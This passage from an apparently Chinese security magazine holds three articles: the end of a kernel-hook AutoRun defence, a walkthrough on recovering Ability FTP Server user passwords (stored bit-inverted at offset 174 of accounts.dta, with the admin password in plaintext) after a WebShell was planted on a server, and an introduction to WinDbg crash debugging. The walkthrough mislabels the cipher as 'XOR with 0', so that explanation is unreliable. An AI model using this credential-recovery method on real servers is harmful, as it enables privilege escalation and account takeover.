            return STATUS_OBJECT_NAME_NOT_FOUND;
        }
    }
    return RealZwCreateFile(...);
}
```

```c
FileAttributes,
ShareAccess,
CreateDisposition,
CreateOptions,
EaBuffer,
EaLength);
};
```

Ring3 代码主要是和内核进行通信，从而设置是否打开 AutoRun 防火墙来进行保护，主要代码如下：

```pascal
Ctrlio:=7001;
m_hookcf:=CreateFile('\\.\ArnPMon', GENERIC_READ or GENERIC_WRITE,
    FILE_SHARE_READ, nil, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);
if (m_hookcf=dword(-1)) then begin
    MessageBox(0,'AutoRun 防火墙运行失败！','警告',MB_OK+MB_ICONWARNING);
    exit;
end;
bRet:=DeviceIoControl(m_hookcf,$22E000,@Ctrlio,sizeof(integer),nil,0,dwReturn,nil);
if (bRet) then
    MessageBox(0,'AutoRun 防火墙开启成功！','提示',MB_OK+MB_ICONINFORMATION);
```

通过用自己的函数替代 ZwCreateFile 函数，对产生的文件进行判断，如果发现生成的文件名为 AutoRun.inf 则不创建该文件，而对于 AutoRun 病毒来说，不能创建 AutoRun.inf 文件，就不能进行传播，因此也就失去了“作用”。这也就达到主动防御 AutoRun 病毒的目的了。效果如图 1 所示。


图 1

我在写本文时，发现很多杀毒软件已经对 AutoRun 病毒做出了相应的防御。以瑞星 2010 杀毒软件来说，只要瑞星实时监控打开，那么病毒在磁盘的根目录下是无法建立名为 AutoRun.inf 文件的。但是它不是采取我在文中提到的 Hook ZwCreateFile 方法。由于瑞星杀毒软件是在底层对 FastFat（Fat32）和 NTFS 两种格式的文件驱动做了 Hook FSD，所以它对 IRP_MJ_CREATE、IRP_MJ_WRITE、IRP_MJ_SETINFORMATION 等进行过滤，对创建、写入等操作文件的 IRP 进行拦截，发现如果创建、写入等操作的文件是病毒、木马和可疑文件，就不让 IRP 继续转发下去，而是返回错误的信息。这样做更底层、安全、彻底和方便。有时间我会使用杀毒软件采取的方式来编写新的 AutoRun 病毒主动防御代码。有兴趣的黑防读者可以继续关注，希望能和大家一起在研究黑客攻与防的学习中不断进步！

> （编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：无  
关键词：工具、提权、FTP 密码

##### 解密 Ability FTP Server 用户信息数据


文/图 爱无言

朋友在一次安全测试的过程中，通过被测试网站所运行的论坛程序成功向网站服务器上传了一个 WebShell。很可惜的是，该 WebShell 是一个低权限 Shell；与大多数读者一样，朋友现在需要通过这个 WebShell 提权，或者说需要获得访问其他目录的权限。试遍了所有的提权手段，依旧没有成功，无奈之下向我发出求救。说实话，关于服务器提权，我们很多时候都是借助一些软件或者服务器配置的缺陷来实现的，所以就询问朋友在目前这个低权限的 WebShell 中能够获得哪些关于软件的信息。朋友传给我一个压缩包文件，解压一看，是一个名叫“Ability FTP Server”的 FTP 服务软件。朋友说这是从那个服务器上打包下来的一个软件，看样子那台服务器上使用了 FTP 服务。朋友说其中有些用户肯定能够访问其他文件目录，所以期待我看一看能不能破解其中的用户，或者说能不能通过这个 FTP 服务软件获得提权的机会。

于是，为了测试，我下载了同样版本的 Ability FTP Server 软件，安装在自己的系统中，具体版本号为 1.20。拿起工具简单测试了一下该服务软件，发现 Ability FTP Server 似乎对溢出漏洞做了一定的防范。时间紧迫，决定不做溢出测试了，还是来看一看能不能破解用户信息，获取用户权限。

运行 Ability FTP Server 软件，通过其 settings 选项，创建了一个名为 test 的用户，如图 1 所示。

我暂时给这个用户设置密码为 qwerdy。这个时候，监测到 Ability FTP Server 软件安装目录下 config 文件夹中的 accounts.dta 文件发生了变化（监测的方法很简单，你可以看一下文件被修改的最后时间，就能发现哪个文件刚刚被修改了）。


图 1

这意味着，很可能 Ability FTP Server 软件会将 FTP 用户的数据信息保存在这个名叫“accounts.dta”的文件中。于是，我利用 WinHex 打开该文件，如图 2 所示。从中可以看到，这个名叫“accounts.dta”的文件中出现了刚才新建的 test 用户名称，同时还有我设置的 test 用户访问目录信息。看来 Ability FTP Server 软件确实将 FTP 用户的数据信息保存在了这个文件中。这就意味着，FTP 用户的密码也应该存在于这个文件中。可是问题来了，Ability FTP Server 软件当然不会傻瓜式地将用户的密码信息明目张胆地保存在 accounts.dta 文件中，它一定会采用一种算法加密用户密码，那么这段被加密的用户密码信息又存在于 accounts.dta 文件的哪个位置呢？


图 2

为了解决这两个问题，我们首先需要找到在 accounts.dta 文件中哪个位置保存了被加密的用户密码数据，然后考虑如何破解被加密的用户密码数据。将当前的这个 accounts.dta 文件复制一份保存为“复件 accounts.dta”。回到 Ability FTP Server 软件的“settings”选项中，更改 test 用户的密码为 zxc。毫无疑问，Ability FTP Server 软件会将新的密码信息保存进 accounts.dta 文件。此时，利用 WinHex 将当前的 accounts.dta 文件和复件 accounts.dta 同时打开，单击 WinHex 菜单中的“File Manager”项，选择其中的“Compare”，如图 3 所示。


图 3

这是一个对比文件异同的对话框，我们在“1st file”栏选择“accounts.dta”文件，在“2nd file”栏选择复件“accounts.dta”，接着在“Compare”栏填入“944”，这代表比较范围的大小。好了，现在单击“OK”按钮，很快 WinHex 就会找出 accounts.dta 文件和复件 accounts.dta 的不同地方，如图 4 所示。


图 4

从图中我们看出，在 accounts.dta 文件偏移 174 个字节的地方，两个文件产生了区别。与此同时，我们注意到，当 test 用户的密码被我们设置为 zxc 这 3 个字母时，accounts.dta 文件偏移 174 字节处就改变了 3 个字节的数据，而其他地方保持了 FF 这个数据。而我们将 test 用户的密码设置为 qwerty 这 6 个字母时，accounts.dta 文件偏移 174 字节处就改变了 6 个字节的数据，而其他地方保持了 FF 这个数据。由此可以推断，accounts.dta 文件偏移 174 个字节的地方肯定是 Ability FTP Server 软件用来保存用户密码的位置。

同时，我们还能推断出 Ability FTP Server 软件对用户密码数据的加密是按照用户密码位数的长短来逐位加密的，不是采用那种类似 MD5 的加密方法，因为 MD5 的加密方式无论多长的数据最终都被加密为 16 位或者 32 位等固定位数。

既然在 accounts.dta 文件中找到了被加密后的用户密码，那么我们能不能破解 Ability FTP Server 软件对用户密码数据的加密算法呢？仔细观察被加密后的数据信息，当密码为 zxc 时，被加密后的数据为 85 87 9C，而 zxc 的 ASCII 码十六进制表示为 7A 78 63。我们首先来推一下 7A 怎么就能变成 85。把 7A 拆解为二进制表达式为 0111 1010，把 85 拆解为二进制表达式为 1000 0101。不知道大家看出来没，当用户原始密码位中是 1 的时候，被加密后的数据则为 0。

不信？我们来看看 x 的二进制表达式为 0111 1000，如果按照我们的推断，被加密后的数据二进制表达式应该为 1000 0111，转换为十六进制就是 87，这不就是前面我们看到的那个被加密后的 3 个数据中间的那个 87 吗？如此一来，我们得到了 Ability FTP Server 软件对用户密码数据的加密算法，十分简单，就是与 0 的异或算法。因此，一旦我们获得了 Ability FTP Server 软件保存用户数据信息的 accounts.dta 文件，在偏移 174 字节的地方找出加密后的密码数据，与 0 异或后，就可以得到用户的原始密码数据了。

在准备将这个消息告诉朋友的时候，无意间我读了读 Ability FTP Server 软件的帮助文档，发现 Ability FTP Server 软件竟然还支持 Remote Admin，即所谓的远程管理。Ability FTP Server 软件允许管理员通过登录网页的形式来管理软件的运行、设置相应参数，如图 5 所示。


图 5

当然，这个远程管理一般都会被管理员设置密码。测试发现，Ability FTP Server 软件的这个远程管理密码竟然是明文保存在 settings.dta 文件中的，如图 6 所示。


图 6

既然朋友都得到了被测试服务器上的 Ability FTP Server 软件的打包文件，那么通过这几个安全隐患，完全可以获得想要的权限了。

最后，除去这几个问题，Ability FTP Server 软件其实是一个十分简单方便的 FTP 服务软件，只不过简单并不意味着软件的安全性也跟着简单，这一点我们在平时的软件开发时需要多加注意。

前置知识：驱动编程、调试技术  
关键词：编程、蓝屏、调试

##### 蓝屏的调试艺术


文/图 [党壮] && [武云龙]

当前恶意程序和杀毒软件对系统控制权的争夺愈演愈烈，各大杀毒厂商都挖空心思在系统底层做文章。众多网友也不甘示弱，都投入到系统底层开发之中，但是不少人是照葫芦画瓢，直接拿别人代码来用，包括我刚开始做的时候也是这样。但由于种种原因，别人运行正常的代码，到你的计算机上就是不能正常运行，还蓝屏了。遇到这种情况，一般人可能就会盯着代码不知所措，问高手也不知道什么时候高手心情好给解释了，或者高手直接来句“根据 dump 文件双机调试就解决了”。我们是新手，没有高手所修的内功，不知道怎么做“根据 dump 文件双机调试就解决了”。即便我们也双机调试了，但却没解决。其实很多时候，高手所谓的简单也是在拥有了几年的开发经验之后才觉得简单。最近看黑防有些读者写驱动遇到问题，不知所措，有感于我的学习经历，“授人以鱼不如授人以渔”，因此作此文，一来解惑，二来共勉。

##### 搭建 WinDbg 调试环境

- 1) Local Kernel Debug（本地调试）

有时候我们只是看看内核的某些数据结构，直接利用本地调试就可以。环境配置的方法为：打开 WinDbg 的“kernel debug”，选择第 4 个“Local”后单击“确定”；设置本地调试的符号路径，打开 WinDbg 的“symbol file path”选项，填入“srv*C:\LocalSymbols*http://msdl.microsoft.com/download/symbols”，然后单击“reload”。

WinDbg 从微软符号服务器下载跟你操作系统相对应的符号文件，因此需要联网操作。符号文件跟操作系统正确对应的话，就会出现“Connected to Windows XP 2600 x86 compatible target, ptr64 FALSE”。

```text
lkd> .reload
Unable to read head of debugger data list
Connected to Windows XP 2600 x86 compatible target,
ptr64 FALSE
Loading Kernel Symbols
...
Loading User Symbols
Loading unloaded module list
```

之后，我们就可以开始本地调试了。比如看 EPROCESS 的结构，直接本地 `dt _eprocess` 就出来了。比如反汇编函数 ZwCreateProcessEx：

```text
lkd> uf ZwCreateProcessEx
ntdll!NtCreateProcessEx:
7c92d140 b8 30000000    mov eax,30h
7c92d145 ba 0003fe7f    mov edx,offset SharedUserData!SystemCallStub (7ffe0300)
7c92d14a ff12           call dword ptr [edx]
7c92d14c c22400         ret 24h
```

- 2) 双机调试

主要用于单步调试程序、动态调试，定位驱动程序出现蓝屏的原因或者逆向动态分析。